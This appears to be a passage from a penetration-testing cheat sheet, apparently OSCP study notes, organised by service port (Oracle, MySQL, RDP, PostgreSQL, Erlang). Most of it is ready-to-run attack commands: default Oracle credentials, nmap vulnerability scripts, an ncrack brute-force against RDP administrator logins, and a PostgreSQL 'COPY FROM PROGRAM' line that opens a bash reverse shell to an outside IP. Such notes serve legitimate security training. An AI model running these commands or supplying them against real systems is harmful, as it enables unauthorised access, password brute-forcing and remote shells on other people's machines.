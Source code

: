 ## Port 2100 - Oracle XML DB

```
FTP:
	sys:sys
	scott:tiger
```

Default passwords
https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm


## 3306 - MySQL
https://book.hacktricks.xyz/pentesting/pentesting-mysql#basic-information

```
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse 10.11.1.111 -p 3306

mysql --host=10.11.1.111 -u root -p

MYSQL UDF
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

## Port 3339 - Oracle web interface


- Basic info about web service (apache, nginx, IIS)

## RDP - 3389

```
nmap -p 3389 --script=rdp-vuln-ms12-020.nse
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.11.1.111
rdesktop -u guest -p guest 10.11.1.111 -g 94%
ncrack -vv --user Administrator -P /root/oscp/passwords.txt rdp://10.11.1.111
xfreerdp /u:bill /p:Password! /v:10.11.1.111
```

## PostgreSQL - 5432/5433
REF: Nibbles, Splodge

https://book.hacktricks.xyz/pentesting/pentesting-postgresql

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection#rce-from-version-9.3

```
psql -U <myuser> # Open psql console with user
psql -h <host> -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection

\list # List Databases
\c postgres # Connect to DB
\d <table> # List tables

Priv Esc via Postgres

CREATE TABLE cmd(cmd_output text); 
COPY cmd FROM PROGRAM 'bash -i >& /dev/tcp/192.168.49.114/80 0>&1'; 
```
## Erland Port Mapper - 4369
https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd
